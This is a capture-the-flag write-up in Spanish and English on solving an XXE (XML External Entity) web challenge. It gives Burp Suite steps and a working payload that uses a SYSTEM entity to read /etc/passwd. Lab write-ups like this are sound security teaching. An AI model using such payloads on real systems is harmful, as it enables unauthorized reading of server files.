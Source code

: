 mado## Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? Additional details will be available after launching your challenge instance.

El proyecto web se hizo con prisa y no se realizó una evaluación de seguridad. ¿Puedes leer el archivo `/etc/passwd`? Los detalles adicionales estarán disponibles después de iniciar tu instancia de desafío.
## Solución
XML External Entity es una vulnerabilidad presente en las aplicaciones que analizan entradas XML. 

Por ejemplo, **si un parser de XML acepta entidades externas** (un tipo de entidad personalizada cuyos valores específicos se cargan desde los archivos DTD en los que están escritos), **un atacante puede intervenir su contenido** para leer archivos del _file system_ o efectuar ataques como un [Server Side Request Forgery (SSRF)](https://blog.hackmetrix.com/ssrf-server-side-request-forgery/), entre otros.

Usando `Burp Suite`y la extensión de navegador `FoxyProxy`podemos realizar este tipo de ataque, esto se hace de la siguiente manera: 
1. Primero conectamos la extensión con `Burp`, en `FoxyProxy` vamos a `opciones > añadir`ponemos un nombre, tipo `HTTP`, como dirección `127.0.0.1`y en puerto `8080`.
2. Vamos a `Burp` en la sección `proxy`, ahí al interactuar con la página veremos las solicitudes `GET`y`POST`, nos importan estas ultimas, damos clic en una y en la zona de `request` veremos información de esta, podemos observar que usan aplicación `XML` por lo que pueden ser vulnerables. Damos clic derecho en la zona y seleccionamos `Sendo to Repeater` y nos movemos a la pestaña `Repeater`.
3. Una vez allí, modificamos el código `XML`dejandolo de la siguiente manera:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<! DOCTYPE foo[
		 <! ENTITY test "XXE VULNERABLE">
]>
<data>
	<ID>
		&test;
	</ID>
</data>
```
``
	Damos a `Send` y en la zona de `Response` debería de aparecer el texto `Invalid ID: XXE VULNERABLE`, esto nos indica que efectivamente la página es vulnerable.
	
4. Ahora utilizamos el siguiente código para observar las contraseñas dentro de la maquina, en la zona de `Response` debería de aparecer la bandera.
```XML
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [
	  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
	<ID>
		&xxe;
	</ID>
</data>
```
## Referencias
https://blog.hackmetrix.com/xxe-xml-external-entity/